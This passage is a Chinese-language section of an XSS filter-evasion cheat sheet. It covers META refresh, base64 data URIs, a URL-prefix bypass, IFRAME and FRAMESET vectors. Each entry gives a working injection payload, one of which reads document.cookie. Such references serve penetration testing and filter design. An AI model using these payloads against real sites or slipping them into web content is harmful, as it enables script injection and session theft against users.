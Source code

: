 关于 meta refresh 比较奇怪的是他并不是发送一个刷新请求头。因此他通常用于不需要引用 url 的攻击。

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');"> 
```

* * *

## META using data

URL 指令方案，它是非常的不错因为赢没有明显的 SCRIPT 单词或是 JavaScript 指令出现，因为它使用了 base64 编码。请查看 [RFC 2397](https://tools.ietf.org/html/rfc2397)了解更多信息或是编码你的代码。你也可以使用 [XSS calculator](http://ha.ckers.org/xsscalc.html)去编码你的 html 或是 javascript 代码到 base64 位。

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K"> 
```

* * *

## 额外 url 参数的 META

如果当前网页试图去查找 URL 参数是否以"http://" 开始，你可以用下列技术绕过（被 Moritz Naumann 提出）

```
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');"> 
```

* * *

## IFRAME

如果一个 iframes 被允许，那么同时可能会存在大量其他 xss 问题

```
<IFRAME SRC="javascript:alert('XSS');"></IFRAME> 
```

* * *

## IFRAME 基于事件

IFrames 或其他元素可以使用事件如下（提出被 David Cross）

```
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME> 
```

* * *

## FRAME

Frames 有一些列相同的问题像 iframes

```
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET> 
```
